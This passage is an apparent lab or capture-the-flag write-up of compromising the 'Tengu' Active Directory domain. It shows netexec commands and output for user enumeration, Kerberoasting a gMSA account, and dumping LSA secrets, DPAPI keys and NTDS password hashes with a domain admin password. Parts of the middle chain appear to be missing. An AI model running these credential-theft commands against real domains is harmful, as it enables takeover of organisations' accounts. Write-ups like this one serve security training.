T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)

Uptime guess: 15.432 days (since Mon Mar  2 04:44:02 2026)
TCP Sequence Prediction: Difficulty=264 (Good luck!)
IP ID Sequence Generation: Incrementing by 2
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 22796/tcp): CLEAN (Timeout)
|   Check 2 (port 40245/tcp): CLEAN (Timeout)
|   Check 3 (port 32599/udp): CLEAN (Timeout)
|   Check 4 (port 45146/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2026-03-17T14:05:20
|_  start_date: N/A
|_clock-skew: mean: 0s, deviation: 0s, median: 0s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| nbstat: NetBIOS name: DC, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:94:cb:a3 (VMware)
| Names:
|   DC<00>               Flags: <unique><active>
|   TENGU<00>            Flags: <group><active>
|   TENGU<1c>            Flags: <group><active>
|   DC<20>               Flags: <unique><active>
|   TENGU<1b>            Flags: <unique><active>
| Statistics:
|   00 50 56 94 cb a3 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00

TRACEROUTE
HOP RTT      ADDRESS
1   13.68 ms 192.168.50.10

```

# Foothold in the ENV

Now I will use the Tier 2 account found from the SQL to check what share and users can i obtain from the DC:

```bash
└─$ netexec smb DC -u t2_m.winters -p Tengu123 --shares
SMB         192.168.50.10   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:tengu.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         192.168.50.10   445    DC               [+] tengu.vl\t2_m.winters:Tengu123 
SMB         192.168.50.10   445    DC               [*] Enumerated shares
SMB         192.168.50.10   445    DC               Share           Permissions     Remark
SMB         192.168.50.10   445    DC               -----           -----------     ------
SMB         192.168.50.10   445    DC               ADMIN$                          Remote Admin
SMB         192.168.50.10   445    DC               C$                              Default share
SMB         192.168.50.10   445    DC               IPC$            READ            Remote IPC
SMB         192.168.50.10   445    DC               NETLOGON        READ            Logon server share 
SMB         192.168.50.10   445    DC               SYSVOL          READ            Logon server share 
                                                                                                                                                                                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/Tengu]
└─$ netexec smb DC -u t2_m.winters -p Tengu123 --users 
SMB         192.168.50.10   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:tengu.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         192.168.50.10   445    DC               [+] tengu.vl\t2_m.winters:Tengu123 
SMB         192.168.50.10   445    DC               -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         192.168.50.10   445    DC               Administrator                 2024-03-09 18:51:57 0       Built-in account for administering the computer/domain 
SMB         192.168.50.10   445    DC               Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         192.168.50.10   445    DC               krbtgt                        2024-03-09 19:46:38 0       Key Distribution Center Service Account 
SMB         192.168.50.10   445    DC               c.fowler                      2024-03-09 19:58:17 0        
SMB         192.168.50.10   445    DC               t2_c.fowler                   2024-03-09 20:02:00 0        
SMB         192.168.50.10   445    DC               t1_c.fowler                   2024-03-09 20:03:23 0        
SMB         192.168.50.10   445    DC               t0_c.fowler                   2024-03-09 20:04:33 0        
SMB         192.168.50.10   445    DC               m.winters                     2024-03-10 14:24:19 0        
SMB         192.168.50.10   445    DC               t2_m.winters                  2024-03-12 17:29:03 0        
SMB         192.168.50.10   445    DC               t1_m.winters                  2024-03-10 21:34:03 0        
SMB         192.168.50.10   445    DC               Jodie.Carter                  2024-03-25 13:26:40 0        
SMB         192.168.50.10   445    DC               Christine.Collins             2024-03-25 13:26:40 0        
SMB         192.168.50.10   445    DC               Cameron.Fry                   2024-03-25 13:26:40 0        
SMB         192.168.50.10   445    DC               Maria.Howells                 2024-03-25 13:26:40 0        
SMB         192.168.50.10   445    DC               Maureen.Davidson              2024-03-25 13:26:40 0        
SMB         192.168.50.10   445    DC               Jay.Wright                    2024-03-25 13:26:40 0        
SMB         192.168.50.10   445    DC               Glenn.Wilson                  2024-03-25 13:26:40 0        
SMB         192.168.50.10   445    DC               Adrian.Brady                  2024-03-25 13:26:40 0        
SMB         192.168.50.10   445    DC               Natalie.Brown                 2024-03-25 13:26:40 0        
SMB         192.168.50.10   445    DC               Darren.Andrews                2024-03-25 13:26:40 0        
SMB         192.168.50.10   445    DC               Julie.Clayton                 2024-03-25 13:26:40 0        
SMB         192.168.50.10   445    DC               Karen.Taylor                  2024-03-25 13:26:40 0        
SMB         192.168.50.10   445    DC               Oliver.Price                  2024-03-25 13:26:40 0        
SMB         192.168.50.10   445    DC               Michael.Wright                2024-03-25 13:26:40 0        
SMB         192.168.50.10   445    DC               Victoria.Fisher               2024-03-25 13:26:40 0        
SMB         192.168.50.10   445    DC               Hannah.Hutchinson             2024-03-25 13:26:40 0        
SMB         192.168.50.10   445    DC               Marian.Browne                 2024-03-25 13:26:40 0        
SMB         192.168.50.10   445    DC               Tracy.Morgan                  2024-03-25 13:26:40 0        
SMB         192.168.50.10   445    DC               Kenneth.Akhtar                2024-03-25 13:26:40 0        
SMB         192.168.50.10   445    DC               Garry.Potter                  2024-03-25 13:26:41 0        
SMB         192.168.50.10   445    DC               Victoria.Bates                2024-03-25 13:26:41 0        
SMB         192.168.50.10   445    DC               Hazel.Smart                   2024-03-25 13:26:41 0        
SMB         192.168.50.10   445    DC               Diane.Howells                 2024-03-25 13:26:41 0        
SMB         192.168.50.10   445    DC               Jane.Wheeler                  2024-03-25 13:26:41 0        
SMB         192.168.50.10   445    DC               Brian.Vincent                 2024-03-25 13:26:41 0        
SMB         192.168.50.10   445    DC               Katie.Turnbull                2024-03-25 13:26:41 0        
SMB         192.168.50.10   445    DC               Rosemary.Clayton              2024-03-25 13:26:41 0        
SMB         192.168.50.10   445    DC               Sharon.Rowley                 2024-03-25 13:26:41 0        
SMB         192.168.50.10   445    DC               Diana.Riley                   2024-03-25 13:26:41 0        
SMB         192.168.50.10   445    DC               David.Clarke                  2024-03-25 13:26:41 0        
SMB         192.168.50.10   445    DC               Patrick.Parry                 2024-03-25 13:26:41 0        
SMB         192.168.50.10   445    DC               Pamela.Burke                  2024-03-25 13:26:41 0        
SMB         192.168.50.10   445    DC               Karen.Clarke                  2024-03-25 13:26:41 0        
SMB         192.168.50.10   445    DC               Dominic.Holden                2024-03-25 13:26:41 0        
SMB         192.168.50.10   445    DC               Alice.Moore                   2024-03-25 13:26:41 0        
SMB         192.168.50.10   445    DC               Dominic.Randall               2024-03-25 13:26:41 0        
SMB         192.168.50.10   445    DC               Mitchell.Forster              2024-03-25 13:26:41 0        
SMB         192.168.50.10   445    DC               Chelsea.Lewis                 2024-03-25 13:26:41 0        
SMB         192.168.50.10   445    DC               Brian.Hopkins                 2024-03-25 13:26:41 0        
SMB         192.168.50.10   445    DC               Tony.Bryant                   2024-03-25 13:26:41 0        
SMB         192.168.50.10   445    DC               Dominic.Jones                 2024-03-25 13:26:41 0        
SMB         192.168.50.10   445    DC               Gavin.Thompson                2024-03-25 13:26:41 0        
SMB         192.168.50.10   445    DC               Grace.Sanders                 2024-03-25 13:26:41 0        
SMB         192.168.50.10   445    DC               Mandy.James                   2024-03-25 13:26:41 0        
SMB         192.168.50.10   445    DC               Elliot.Moore                  2024-03-25 13:26:41 0        
SMB         192.168.50.10   445    DC               Robin.Knowles                 2024-03-25 13:26:41 0        
SMB         192.168.50.10   445    DC               Lorraine.Patel                2024-03-25 13:26:41 0        
SMB         192.168.50.10   445    DC               Marian.Lewis                  2024-03-25 13:26:42 0        
SMB         192.168.50.10   445    DC               Karl.Griffiths                2024-03-25 13:26:42 0        
SMB         192.168.50.10   445    DC               Francis.Brown                 2024-03-25 13:26:42 0        
SMB         192.168.50.10   445    DC               Damian.Webb                   2024-03-25 13:26:42 0        
SMB         192.168.50.10   445    DC               Lynda.Morris                  2024-03-25 13:26:42 0        
SMB         192.168.50.10   445    DC               Kevin.Swift                   2024-03-25 13:26:42 0        
SMB         192.168.50.10   445    DC               Grace.Bell                    2024-03-25 13:26:42 0        
SMB         192.168.50.10   445    DC               Terence.Webb                  2024-03-25 13:26:42 0        
SMB         192.168.50.10   445    DC               Michael.Manning               2024-03-25 13:26:42 0        
SMB         192.168.50.10   445    DC               Ashleigh.Clarke               2024-03-25 13:26:42 0        
SMB         192.168.50.10   445    DC               Leigh.Pearson                 2024-03-25 13:26:42 0        
SMB         192.168.50.10   445    DC               Barbara.Davis                 2024-03-25 13:26:42 0        
SMB         192.168.50.10   445    DC               Kenneth.O'Sullivan            2024-03-25 13:26:42 0        
SMB         192.168.50.10   445    DC               Iain.Taylor                   2024-03-25 13:26:42 0        
SMB         192.168.50.10   445    DC               Maureen.Jones                 2024-03-25 13:26:42 0        
SMB         192.168.50.10   445    DC               Natalie.Allen                 2024-03-25 13:26:42 0        
SMB         192.168.50.10   445    DC               Carol.Bailey                  2024-03-25 13:26:42 0        
SMB         192.168.50.10   445    DC               Kathryn.Gregory               2024-03-25 13:26:42 0        
SMB         192.168.50.10   445    DC               Nicole.Hewitt                 2024-03-25 13:26:42 0        
SMB         192.168.50.10   445    DC               Marian.Reynolds               2024-03-25 13:26:42 0        
SMB         192.168.50.10   445    DC               Lucy.Smith                    2024-03-25 13:26:42 0        
SMB         192.168.50.10   445    DC               Irene.Mitchell                2024-03-25 13:26:42 0        
SMB         192.168.50.10   445    DC               Marian.Hodgson                2024-03-25 13:26:42 0        
SMB         192.168.50.10   445    DC               Margaret.Robinson             2024-03-25 13:26:42 0        
SMB         192.168.50.10   445    DC               Neil.Evans                    2024-03-25 13:26:42 0        
SMB         192.168.50.10   445    DC               Sian.Fleming                  2024-03-25 13:26:42 0        
SMB         192.168.50.10   445    DC               Ben.Hughes                    2024-03-25 13:26:42 0        
SMB         192.168.50.10   445    DC               Hugh.Nelson                   2024-03-25 13:26:42 0        
SMB         192.168.50.10   445    DC               Lisa.Johnson                  2024-03-25 13:26:43 0        
SMB         192.168.50.10   445    DC               Annette.Pearson               2024-03-25 13:26:43 0        
SMB         192.168.50.10   445    DC               Marilyn.Campbell              2024-03-25 13:26:43 0        
SMB         192.168.50.10   445    DC               Tracy.Morrison                2024-03-25 13:26:43 0        
SMB         192.168.50.10   445    DC               Stacey.Begum                  2024-03-25 13:26:43 0        
SMB         192.168.50.10   445    DC               Jean.Noble                    2024-03-25 13:26:43 0        
SMB         192.168.50.10   445    DC               Luke.Taylor                   2024-03-25 13:26:43 0        
SMB         192.168.50.10   445    DC               Vanessa.Rose                  2024-03-25 13:26:43 0        
SMB         192.168.50.10   445    DC               Sylvia.Chapman                2024-03-25 13:26:43 0        
SMB         192.168.50.10   445    DC               Benjamin.James                2024-03-25 13:26:43 0        
SMB         192.168.50.10   445    DC               Elliot.Foster                 2024-03-25 13:26:43 0        
SMB         192.168.50.10   445    DC               Robin.Green                   2024-03-25 13:26:43 0        
SMB         192.168.50.10   445    DC               Jordan.Roberts                2024-03-25 13:26:43 0        
SMB         192.168.50.10   445    DC               Kim.Wright                    2024-03-25 13:26:43 0        
SMB         192.168.50.10   445    DC               Joel.Rowley                   2024-03-25 13:26:43 0        
SMB         192.168.50.10   445    DC               Lynne.Marshall                2024-03-25 13:26:43 0        
SMB         192.168.50.10   445    DC               Nicole.Price                  2024-03-25 13:26:43 0        
SMB         192.168.50.10   445    DC               Brandon.Gibson                2024-03-25 13:26:43 0        
SMB         192.168.50.10   445    DC               Maurice.Dean                  2024-03-25 13:26:43 0        
SMB         192.168.50.10   445    DC               Geraldine.Richardson          2024-03-25 13:26:43 0        
SMB         192.168.50.10   445    DC               Donna.Morgan                  2024-03-25 13:26:43 0        
SMB         192.168.50.10   445    DC               Reece.Phillips                2024-03-25 13:26:43 0        
SMB         192.168.50.10   445    DC               Claire.King                   2024-03-25 13:26:43 0        
SMB         192.168.50.10   445    DC               Jayne.Oliver                  2024-03-25 13:26:43 0        
SMB         192.168.50.10   445    DC               Oliver.Fleming                2024-03-25 13:26:43 0        
SMB         192.168.50.10   445    DC               Hannah.Miller                 2024-03-25 13:26:43 0        
SMB         192.168.50.10   445    DC               Connor.Clark                  2024-03-25 13:26:43 0        
SMB         192.168.50.10   445    DC               Wayne.Dobson                  2024-03-25 13:26:44 0        
SMB         192.168.50.10   445    DC               Jack.Thompson                 2024-03-25 13:26:44 0        
SMB         192.168.50.10   445    DC               Michael.Williams              2024-03-25 13:26:44 0        
SMB         192.168.50.10   445    DC               Ashleigh.Whittaker            2024-03-25 13:26:44 0        
SMB         192.168.50.10   445    DC               Dale.Elliott                  2024-03-25 13:26:44 0        
SMB         192.168.50.10   445    DC               Chloe.Shaw                    2024-03-25 13:26:44 0        
SMB         192.168.50.10   445    DC               Kieran.Jackson                2024-03-25 13:26:44 0        
SMB         192.168.50.10   445    DC               Josephine.Johnson             2024-03-25 13:26:44 0        
SMB         192.168.50.10   445    DC               Trevor.Kelly                  2024-03-25 13:26:44 0        
SMB         192.168.50.10   445    DC               Yvonne.Steele                 2024-03-25 13:26:44 0        
SMB         192.168.50.10   445    DC               Joanne.Holden                 2024-03-25 13:26:44 0        
SMB         192.168.50.10   445    DC               Henry.White                   2024-03-25 13:26:44 0        
SMB         192.168.50.10   445    DC               Susan.Palmer                  2024-03-25 13:26:44 0        
SMB         192.168.50.10   445    DC               Joe.Fisher                    2024-03-25 13:26:44 0        
SMB         192.168.50.10   445    DC               Alice.Hill                    2024-03-25 13:26:44 0        
SMB         192.168.50.10   445    DC               Alice.Thompson                2024-03-25 13:26:44 0        
SMB         192.168.50.10   445    DC               Billy.Smith                   2024-03-25 13:26:44 0        
SMB         192.168.50.10   445    DC               Elizabeth.Fletcher            2024-03-25 13:26:44 0        
SMB         192.168.50.10   445    DC               Melanie.Warren                2024-03-25 13:26:44 0        
SMB         192.168.50.10   445    DC               Kelly.Turnbull                2024-03-25 13:26:44 0        
SMB         192.168.50.10   445    DC               Luke.Haynes                   2024-03-25 13:26:44 0        
SMB         192.168.50.10   445    DC               Lucy.Kaur                     2024-03-25 13:26:44 0        
SMB         192.168.50.10   445    DC               Tracy.Berry                   2024-03-25 13:26:44 0        
SMB         192.168.50.10   445    DC               Graham.Jones                  2024-03-25 13:26:44 0        
SMB         192.168.50.10   445    DC               Denis.Wright                  2024-03-25 13:26:44 0        
SMB         192.168.50.10   445    DC               Denise.Andrews                2024-03-25 13:26:44 0        
SMB         192.168.50.10   445    DC               Ashleigh.Bell                 2024-03-25 13:26:44 0        
SMB         192.168.50.10   445    DC               Laura.Duffy                   2024-03-25 13:26:45 0        
SMB         192.168.50.10   445    DC               Guy.Connor                    2024-03-25 13:26:45 0        
SMB         192.168.50.10   445    DC               Roy.Elliott                   2024-03-25 13:26:45 0        
SMB         192.168.50.10   445    DC               Howard.McCarthy               2024-03-25 13:26:45 0        
SMB         192.168.50.10   445    DC               Kelly.Nash                    2024-03-25 13:26:45 0        
SMB         192.168.50.10   445    DC               Alexandra.Bird                2024-03-25 13:26:45 0        
SMB         192.168.50.10   445    DC               Denise.Davies                 2024-03-25 13:26:45 0        
SMB         192.168.50.10   445    DC               Nicola.Hayward                2024-03-25 13:26:45 0        
SMB         192.168.50.10   445    DC               Samantha.Hussain              2024-03-25 13:26:45 0        
SMB         192.168.50.10   445    DC               Sara.Hall                     2024-03-25 13:26:45 0        
SMB         192.168.50.10   445    DC               Gerard.Patel                  2024-03-25 13:26:45 0        
SMB         192.168.50.10   445    DC               Charlotte.Mitchell            2024-03-25 13:26:45 0        
SMB         192.168.50.10   445    DC               Donna.Evans                   2024-03-25 13:26:45 0        
SMB         192.168.50.10   445    DC               James.Wells                   2024-03-25 13:26:45 0        
SMB         192.168.50.10   445    DC               Sarah.Collins                 2024-03-25 13:26:45 0        
SMB         192.168.50.10   445    DC               Frank.Johnson                 2024-03-25 13:26:45 0        
SMB         192.168.50.10   445    DC               Lisa.Hanson                   2024-03-25 13:26:45 0        
SMB         192.168.50.10   445    DC               Raymond.Hutchinson            2024-03-25 13:26:45 0        
SMB         192.168.50.10   445    DC               Hugh.Lee                      2024-03-25 13:26:45 0        
SMB         192.168.50.10   445    DC               Damian.Parker                 2024-03-25 13:26:45 0        
SMB         192.168.50.10   445    DC               Francesca.Patel               2024-03-25 13:26:45 0        
SMB         192.168.50.10   445    DC               Lynn.Cox                      2024-03-25 13:26:45 0        
SMB         192.168.50.10   445    DC               Howard.Harrison               2024-03-25 13:26:45 0        
SMB         192.168.50.10   445    DC               Lisa.Hussain                  2024-03-25 13:26:45 0        
SMB         192.168.50.10   445    DC               Christian.Edwards             2024-03-25 13:26:45 0        
SMB         192.168.50.10   445    DC               Carole.Robinson               2024-03-25 13:26:45 0        
SMB         192.168.50.10   445    DC               Kerry.Curtis                  2024-03-25 13:26:45 0        
SMB         192.168.50.10   445    DC               Joel.Smith                    2024-03-25 13:26:45 0        
SMB         192.168.50.10   445    DC               Joshua.Walker                 2024-03-25 13:26:46 0        
SMB         192.168.50.10   445    DC               Laura.Thomas                  2024-03-25 13:26:46 0        
SMB         192.168.50.10   445    DC               Lydia.Preston                 2024-03-25 13:26:46 0        
SMB         192.168.50.10   445    DC               Kevin.Ferguson                2024-03-25 13:26:46 0        
SMB         192.168.50.10   445    DC               Jonathan.Parsons              2024-03-25 13:26:46 0        
SMB         192.168.50.10   445    DC               Mohammed.Miller               2024-03-25 13:26:46 0        
SMB         192.168.50.10   445    DC               Jasmine.Thomas                2024-03-25 13:26:46 0        
SMB         192.168.50.10   445    DC               Terence.Thomas                2024-03-25 13:26:46 0        
SMB         192.168.50.10   445    DC               Ronald.Adams                  2024-03-25 13:26:46 0        
SMB         192.168.50.10   445    DC               Sharon.Begum                  2024-03-25 13:26:46 0        
SMB         192.168.50.10   445    DC               Carole.Tucker                 2024-03-25 13:26:46 0        
SMB         192.168.50.10   445    DC               Robin.Cooper                  2024-03-25 13:26:46 0        
SMB         192.168.50.10   445    DC               Maureen.Craig                 2024-03-25 13:26:46 0        
SMB         192.168.50.10   445    DC               Laura.Rhodes                  2024-03-25 13:26:46 0        
SMB         192.168.50.10   445    DC               Carol.Hope                    2024-03-25 13:26:46 0        
SMB         192.168.50.10   445    DC               Lorraine.Chambers             2024-03-25 13:26:46 0        
SMB         192.168.50.10   445    DC               Rachel.Robinson               2024-03-25 13:26:46 0        
SMB         192.168.50.10   445    DC               Naomi.Hill                    2024-03-25 13:26:46 0        
SMB         192.168.50.10   445    DC               Samantha.Smith                2024-03-25 13:26:46 0        
SMB         192.168.50.10   445    DC               Alex.Gill                     2024-03-25 13:26:46 0        
SMB         192.168.50.10   445    DC               Benjamin.Osborne              2024-03-25 13:26:46 0        
SMB         192.168.50.10   445    DC               Benjamin.Gregory              2024-03-25 13:26:46 0        
SMB         192.168.50.10   445    DC               Jamie.Lewis                   2024-03-25 13:26:46 0        
SMB         192.168.50.10   445    DC               Alexandra.Nicholson           2024-03-25 13:26:46 0        
SMB         192.168.50.10   445    DC               Owen.Peacock                  2024-03-25 13:26:47 0        
SMB         192.168.50.10   445    DC               Mohammad.Brennan              2024-03-25 13:26:47 0        
SMB         192.168.50.10   445    DC               Declan.Curtis                 2024-03-25 13:26:47 0        
SMB         192.168.50.10   445    DC               Tina.Cook                     2024-03-25 13:26:47 0        
SMB         192.168.50.10   445    DC               Jasmine.West                  2024-03-25 13:26:47 0        
SMB         192.168.50.10   445    DC               Denise.Green                  2024-03-25 13:26:47 0        
SMB         192.168.50.10   445    DC               Keith.Jenkins                 2024-03-25 13:26:47 0        
SMB         192.168.50.10   445    DC               Luke.Webster                  2024-03-25 13:26:47 0        
SMB         192.168.50.10   445    DC               Shirley.Hall                  2024-03-25 13:26:47 0        
SMB         192.168.50.10   445    DC               Nicole.Marshall               2024-03-25 13:26:47 0        
SMB         192.168.50.10   445    DC               Timothy.Byrne                 2024-03-25 13:26:47 0        
SMB         192.168.50.10   445    DC               Joshua.Rogers                 2024-03-25 13:26:47 0        
SMB         192.168.50.10   445    DC               Roger.Marshall                2024-03-25 13:26:47 0        
SMB         192.168.50.10   445    DC               Heather.Smith                 2024-03-25 13:26:47 0        
SMB         192.168.50.10   445    DC               Joanne.Ahmed                  2024-03-25 13:26:47 0        
SMB         192.168.50.10   445    DC               Catherine.Mellor              2024-03-25 13:26:47 0        
SMB         192.168.50.10   445    DC               Hayley.Weston                 2024-03-25 13:26:47 0        
SMB         192.168.50.10   445    DC               Catherine.Chapman             2024-03-25 13:26:47 0        
SMB         192.168.50.10   445    DC               Howard.Johnson                2024-03-25 13:26:47 0        
SMB         192.168.50.10   445    DC               [*] Enumerated 210 local users: TENGU

```

Now before digging into Bloodhound I see traces of a GSMA but I need to find a way how can I read it?

```bash
└─$ netexec ldap DC -u t2_m.winters -p Tengu123 --asreproast asreproastable.txt
LDAP        192.168.50.10   389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:tengu.vl) (signing:None) (channel binding:Never) 
LDAP        192.168.50.10   389    DC               [+] tengu.vl\t2_m.winters:Tengu123 
LDAP        192.168.50.10   389    DC               No entries found!
                                                                                                                                                                                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/Tengu]
└─$ netexec ldap DC -u t2_m.winters -p Tengu123 --kerberoast kerberoastable.txt 
LDAP        192.168.50.10   389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:tengu.vl) (signing:None) (channel binding:Never) 
LDAP        192.168.50.10   389    DC               [+] tengu.vl\t2_m.winters:Tengu123 
LDAP        192.168.50.10   389    DC               [*] Skipping disabled account: krbtgt
LDAP        192.168.50.10   389    DC               [*] Total of records returned 1
LDAP        192.168.50.10   389    DC               [*] sAMAccountName: gMSA01$, memberOf: [], pwdLastSet: 2026-03-17 04:23:11.054997, lastLogon: 2026-03-17 04:23:11.148734
LDAP        192.168.50.10   389    DC               $krb5tgs$18$hostgmsa01.tengu.vl$TENGU.VL$*tengu.vl\gMSA01$*$5e7fe56d2d670ec8570819a4$2102e615bffeb598f1a8df4ac0e1acd6ed14f38d511d0cb1d44de2109900d314c3d5a2d9bef07d74ae60b425cef1c7e7c250387a75109eb2577ff96b27af79628e53c4097f97733cbc04f02635bafb1e7ca7e2ba6c43ba5fb8f4f3f40d51d441b0e8bd6ef2dc43b3cbe0b46434a61c6cd943daa3acd7a7955521875fe39e718ab6ce39422afdcd2021ed856fdec85de92372d539dea82cff2aef8a985de43a0b28b7feaa57d1c478fb26a68cd3bbc79604e6c602369e6825c4983442faa4b3577b928db74be2abc344835215f024bad0465ce9fa40b63f7fb29fbf82ab84d29a637085b7c4ece1baab8b4ee9678b74a56f0af82309bd80fc5b79d17cbcaed923dd80ac9d8287ec84a75a3c0c5179076797faabfcd7900b523ba2424311b4d5fe269b476e9be85a33564cde21a3190458538543315251849bde29754df929f302820cdf50fb3a388159f4f1c13c828ffa4dfc4f6a2cf6055b2034b3c1c18b525aa393c3925865a4d4f645e8f566f189d99a7dffcce294d3021606fc351035f1389f57890513b57d7ebee3c2d57e157d13070f06d1b95b7f3173acdbab597613e2ef8ec7e3799c2f8cd2b1b4bea5d7924f8d05b271f31fc4b25b1b1fe8b0740195379dd36dc219086afd28eb82e1797592d2baf754b0c996ce2b5dfa002ec6695d0dd0a945b9fdd0334ad226fbf4662b766a2720afe31570eaa3c6c70db0100964c9c6190203d5d41f00af36e3ced2e4e76f4379c47a4dfa3a1e23bddab44d8fcbe6f738690d8368df173ec8d61f550c242821fe95a0e7604eb4f7a57125d0bb069892320fe9da89b8da2ebdd2226abeace11819cffb888bb7d27a81a26b5fba4ec31ebfea5c3d257d5467666e505584c10d1a6715e597d0f8bb9aa2b84bf05b662e04f8e4169a0e203a7cca18a0e1aaf731ac3c4a50ee694252291c484faecf2167acf607fb29ecee60bce2c23bb7b498ce7db82b643ea4ad3913efe3c664d8effeafdcfc2a40fef46f05ff3c08e4b3ec7ab52395b190eaedd4b7132a20214e15e4ab46dd1a41ce854ecae7dadd2cc5ab1adbc41f6a523b307e78a598b5f24634a9bfdc20cf3550b581860394f65ffdca10b2bec6987ddb790e162dbef19a23b754f8a5c57d1b855c5e2bca8e17ee19c4a1f90a0910e0ee3ccb84660985975c2021c709fe4b1597b3378592d4c51dff954e3495d32efa60f0cca4de0abea2ce9477b541ec169241589522209395361350cd3982809d92beb0391543cba6119816b9307826e877c341798f234ab75ea51cde61c35d41c82283174cbcdda0fe289d4b7d6978fb2e3e13b3ad04e0a927428cac2f8099afc4c086ef1a8144dba72a252c84dcb9522755a123681241bf449963143b54db9b44b0894651fa0cd203e1d8856fe987df45c1f0fa834be8129cc06319cdbc12d303465199ee397236a8f556fd251e3f00a5c339b6d4cbef21fdd150aa21728ade7319df48ea49406cfaafb297144c1085b25187c0fa7fc01322d9ba30f573a8027dbf539682cd08b3

```

# Poking the AD

Now parsign the bllodhound data I can see my user should be able to login via ssh?  


Now there is only one Linux server, and this server may do this:



Since NODERED is jouined to this domain I should be able to dump and decrypt the keytab? And then read that GMSA creds! Those creds can at it's end perform a RBCD!



# The last stretch

Now with the first Tier zero account I can appure he is a domain admin but he is also part of the Protected users, which means I need to use kerberos tickets to login.



But netexec is clever here and it bypasses it easily:

```bash
┌──(user㉿kali-almi)-[~/Downloads/Tengu]
└─$ netexec smb DC -u 'T0_c.fowler' -p 'UntrimmedDisplaceModify25' -k --lsa
SMB         DC              445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:tengu.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         DC              445    DC               [+] tengu.vl\T0_c.fowler:UntrimmedDisplaceModify25 (Pwn3d!)
SMB         DC              445    DC               [+] Dumping LSA secrets
SMB         DC              445    DC               TENGU\DC$:plain_password_hex:92074705cd72c4eb4c5037b996f32918f48f36a5e54e1b82b93b21903e1434076447b020e69412bba9463d3caea458c3bd3d603196555b6eeaa4718473c89e45fadc63615ade79a8b2f540ddbce353de0036b2a8cfa4f03ddb844b267412e5da4a9bfc129d6c7e8dc74352163a6ce0c6a8325893237aa70b7a0a6ce23dc8028395a49bb8dd44a5e312970688d99ca941b2eb1b6e449c113e3ca44628071e9f9c3b96a060a3735eacf9ab51f219d7cea3b03766c966630c63f11b3fded6b2b357ddcd15a82823b4332b3da41c4f12e12b20a5e22986e4b0b24215e8ee9821514584ecd6c45cc0efbc172ea0fdf786f555
SMB         DC              445    DC               TENGU\DC$:aad3b435b51404eeaad3b435b51404ee:68f1a9471638b7bcac8b5e4cf4bebcd8:::
SMB         DC              445    DC               dpapi_machinekey:0xb27431f039ee8f12e2ed696b1a47f403ecc8def0
dpapi_userkey:0xbbde5c5fc3329325bab873f633f4737367b1655c
SMB         DC              445    DC               [+] Dumped 3 LSA secrets to /home/user/.nxc/logs/lsa/DC_None_2026-03-17_163716.secrets and /home/user/.nxc/logs/lsa/DC_None_2026-03-17_163716.cached
                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/Tengu]
└─$ netexec smb DC -u 'T0_c.fowler' -p 'UntrimmedDisplaceModify25' -k --dpapi
SMB         DC              445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:tengu.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         DC              445    DC               [+] tengu.vl\T0_c.fowler:UntrimmedDisplaceModify25 (Pwn3d!)
SMB         DC              445    DC               [+] User is Domain Administrator, exporting domain backupkey...
SMB         DC              445    DC               [*] Collecting DPAPI masterkeys, grab a coffee and be patient...
SMB         DC              445    DC               [+] Got 9 decrypted masterkeys. Looting secrets...
                                                                                                           
```

And this is a ''snippet'' of the NTDS database:

```bash
┌──(user㉿kali-almi)-[~/Downloads/Tengu]
└─$ netexec smb DC -u 'T0_c.fowler' -p 'UntrimmedDisplaceModify25' -k --ntds
SMB         DC              445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:tengu.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         DC              445    DC               [+] tengu.vl\T0_c.fowler:UntrimmedDisplaceModify25 (Pwn3d!)
SMB         DC              445    DC               [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         DC              445    DC               Administrator:500:aad3b435b51404eeaad3b435b51404ee:38c77bef855fd6896bc28c9429e18cfd:::
SMB         DC              445    DC               Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         DC              445    DC               krbtgt:502:aad3b435b51404eeaad3b435b51404ee:90a4f9ca412c7587c7e099f21fe1f77e:::
SMB         DC              445    DC               tengu.vl\c.fowler:1104:aad3b435b51404eeaad3b435b51404ee:41b1548571ec6f881e70d861d3a7e9de:::
SMB         DC              445    DC               tengu.vl\t2_c.fowler:1105:aad3b435b51404eeaad3b435b51404ee:d42ba91da2e75c8c1a80ac02cdb8d738:::
SMB         DC              445    DC               tengu.vl\t1_c.fowler:1106:aad3b435b51404eeaad3b435b51404ee:275b0ba6d3829f9123db1303f190f47a:::
SMB         DC              445    DC               tengu.vl\t0_c.fowler:1107:aad3b435b51404eeaad3b435b51404ee:cd3a7a7bfdabbecfd70f239859faf5d1:::
